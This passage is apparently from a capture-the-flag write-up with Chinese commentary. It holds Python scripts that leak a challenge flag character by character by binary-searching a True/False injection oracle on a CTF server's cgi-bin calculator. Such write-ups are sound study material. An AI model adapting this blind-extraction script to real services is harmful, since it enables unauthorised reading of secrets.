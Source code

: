 ```python
            if 'False' in resp and 'security' not in resp:
                flag += chr(prev - 1)
                print(flag)
                break
            else:
                prev = i

```

也可以二分（感觉自己之前写的二分法的脚本应该解耦了，不然遇到这种情况的话需要改的地方就太多了，应该改成一些函数的集合体 就像这个大佬的一样

```python
import requests, re


def calc(v1, v2, op, s):
    u = "http://178.128.96.203/cgi-bin/server.py?"
    payload = dict(value1=v1, value2=v2, op=op, source=s)
    # print payload
    r = requests.get(u, params=payload)
    # print r.url
    res = re.findall("<pre>\n>>>>([\s\S]*)\n>>> <\/pre>",
                     r.content)[0].split('\n')[1]
    assert (res != 'Invalid')
    return res == 'True'
    # print r.content


def check(mid):
    s = flag + chr(mid)
    return calc(v1, v2, op, s)


def bin_search(seq=xrange(0x20, 0x80), lo=0, hi=None):
    assert (lo >= 0)
    if hi == None: hi = len(seq)
    while lo < hi:
        mid = (lo + hi) // 2
        # print lo, mid, hi, "\t",
        if check(seq[mid]): hi = mid
        else: lo = mid + 1
    return seq[lo]


flag = ''
v1, v2, op, s = 'x', "+FLAG<value1+source#", "+'", ''

while (1):
    flag += chr(bin_search() - 1)
    print flag
```
